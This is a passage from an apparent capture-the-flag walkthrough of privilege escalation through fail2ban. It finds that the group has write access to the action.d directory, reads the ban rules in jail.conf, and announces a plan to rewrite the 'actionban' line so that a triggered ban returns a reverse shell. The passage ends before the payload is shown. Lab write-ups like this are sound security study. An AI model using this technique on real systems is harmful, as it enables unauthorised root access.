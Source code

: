 We can restart `fail2ban` service and we are part of a group called `security`.

Let's see what this group has.

```terminal
michael@trick:/$ find / -group security 2>/dev/null
/etc/fail2ban/action.d
michael@trick:/$ cd /etc/fail2ban/action.d                                                     
michael@trick:/etc/fail2ban/action.d$ ls -la                                                                                                                                                  
total 288                                                                                      
drwxrwx--- 2 root security  4096 Jul  7 13:33 .   
```

The group has write privileges on the /etc/fail2ban/action.d directory, and therefore on every file inside it.

> Fail2Ban is an intrusion prevention software framework. It is designed to prevent brute-force attacks and ban clients that repeatedly fail authentication checks.
{: .prompt-info }

The rules are on a file called `jail.conf`, let's read it and see how we can trigger a ban.

```bash
[DEFAULT] 

# ignorecommand = /path/to/command <ip>                                                        
ignorecommand =
                                                                                               
# "bantime" is the number of seconds that a host is banned.           
bantime  = 10s               

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10s

# "maxretry" is the number of failures before a host get banned.
maxretry = 5

# Default protocol
protocol = tcp


banaction = iptables-multiport
banaction_allports = iptables-allports

```

This rule is going to apply the `iptables-multiport` action when 5 failed login attempt happens in under 10 seconds.

Since we have write perms over `action.d` we can edit the `iptables-multiport.conf` file to send us a reverse shell when it gets triggered.

I'll edit the `actionban` on line 33.
